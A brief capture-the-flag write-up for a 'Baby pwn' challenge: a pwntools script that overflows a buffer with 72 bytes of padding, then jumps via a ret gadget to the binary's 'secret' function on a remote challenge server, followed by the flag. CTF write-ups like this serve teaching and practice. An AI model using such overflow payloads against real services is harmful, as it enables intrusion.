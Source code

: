 # Baby pwn

Solved by: @mfkrypt

## Question:

Here’s a baby pwn challenge for you to try out. Can you get the flag? 

## Solution:
```
from pwn import *

elf = context.binary = ELF('./baby-pwn', checksec=False)
context.log_level = 'debug'

# io = process()
io = remote('34.162.142.123', 5000)

offset = 72
ret = 0x40101a

payload = flat(
    b'A' * offset,
    ret,
    elf.sym['secret']
)

io.sendline(payload)
io.interactive()

```

**Flag:** `uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}`
